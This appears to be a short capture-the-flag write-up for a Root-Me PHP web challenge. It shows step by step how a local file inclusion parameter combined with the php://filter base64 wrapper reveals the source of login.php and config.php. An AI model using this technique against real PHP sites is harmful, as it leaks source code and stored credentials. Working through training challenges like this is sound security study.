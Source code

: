 Step 1: http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=login.php


Step 2: Base64 decode:

``` php
<?php

include("config.php");

#...
```


Step 3: http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=config.php

